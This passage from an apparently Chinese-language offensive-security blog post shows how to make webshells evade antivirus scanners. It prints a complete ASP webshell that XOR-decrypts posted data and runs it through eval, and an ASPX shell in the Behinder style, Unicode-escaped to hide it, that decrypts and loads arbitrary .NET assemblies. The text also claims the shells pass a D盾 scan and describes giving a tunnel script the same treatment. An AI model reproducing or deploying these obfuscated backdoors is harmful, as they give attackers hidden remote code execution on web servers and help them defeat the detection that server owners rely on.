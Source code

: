 ```asp
<% 
function xx(str) 
    str=replace(str,"\u","")
    xx=""
    dim i
    for i=1 to len(str) step 4
        xx=xx & ChrW(cint("&H" & mid(str,i,4)))
    next
end function
Response.CharSet = "UTF-8" 
If Request.ServerVariables("REQUEST_METHOD")="GET" And Request.QueryString("pass") Then
For a=1 To 8
RANDOMIZE
k=Hex((255-17)*rnd+16)+k
Next
Session("k")=k
response.write(k)
Else
k=Session("k")
size=Request.TotalBytes
content=Request.BinaryRead(size)
For i=1 To size
result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1)))
Next
dim a(5)
a(0)=xx("\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0072\u0065\u0073\u0075\u006c\u0074\u0029")
eval(a(0))
End If
%>
```
#### aspx木马： 
aspx当然也有免杀方法，aspx的免杀可以类似jsp，因为对于aspx脚本，将里面的函数进行unicode编码也是可以运行的，当然比jsp更好的是aspx对于函数参数的编码也能运行：

```aspx
<%@ Page Language="C#" %>
<%@Import Namespace="\u0053\u0079\u0073\u0074\u0065\u006d.\u0052\u0065\u0066\u006c\u0065\u0063\u0074\u0069\u006f\u006e"%>
<%if (\u0052\u0065\u0071\u0075\u0065\u0073\u0074["\u0070\u0061\u0073\u0073"]!=null){ \u0053\u0065\u0073\u0073\u0069\u006f\u006e.\u0041\u0064\u0064("\u006b", Guid.NewGuid().ToString().\u0052\u0065\u0070\u006c\u0061\u0063\u0065("-", "").\u0053\u0075\u0062\u0073\u0074\u0072\u0069\u006e\u0067(16)); \u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065.Write(Session[0]); return;}byte[] k = \u0045\u006e\u0063\u006f\u0064\u0069\u006e\u0067.Default.GetBytes(Session[0] + ""),c = \u0052\u0065\u0071\u0075\u0065\u0073\u0074.\u0042\u0069\u006e\u0061\u0072\u0079\u0052\u0065\u0061\u0064(\u0052\u0065\u0071\u0075\u0065\u0073\u0074.\u0043\u006f\u006e\u0074\u0065\u006e\u0074\u004c\u0065\u006e\u0067\u0074\u0068);\u0041\u0073\u0073\u0065\u006d\u0062\u006c\u0079.\u004c\u006f\u0061\u0064(new \u0053\u0079\u0073\u0074\u0065\u006d.\u0053\u0065\u0063\u0075\u0072\u0069\u0074\u0079.\u0043\u0072\u0079\u0070\u0074\u006f\u0067\u0072\u0061\u0070\u0068\u0079.\u0052\u0069\u006a\u006e\u0064\u0061\u0065\u006c\u004d\u0061\u006e\u0061\u0067\u0065\u0064().\u0043\u0072\u0065\u0061\u0074\u0065\u0044\u0065\u0063\u0072\u0079\u0070\u0074\u006f\u0072(k, k).\u0054\u0072\u0061\u006e\u0073\u0066\u006f\u0072\u006d\u0046\u0069\u006e\u0061\u006c\u0042\u006c\u006f\u0063\u006b(c, 0, c.Length)).\u0043\u0072\u0065\u0061\u0074\u0065\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065("U").\u0045\u0071\u0075\u0061\u006c\u0073(this);%>
```
如上面代码所述，我只是随便找了几个函数进行了unicode编码，大家可以进一步细化。当然对于里面的括号、点号不能进行编码。
最后用d盾扫下：  
![avatar](/Users/volcano/GitHub/volcanohatred.github.io/img/articles/webshell免杀/图片 1.png)
#### tunnel的免杀
tunnel的静态免杀可以结合上面所说的冰蝎免杀方法进行制作，当然如果改动的是前面动态免杀的tunnel脚本那就更好了，这里不多介绍，之前对jsp版本的tunnel进行过改动，也是通过unicode的方式进行：
![avatar](/Users/volcano/GitHub/volcanohatred.github.io/img/articles/webshell免杀/截屏2020-05-18 下午7.58.22.png)

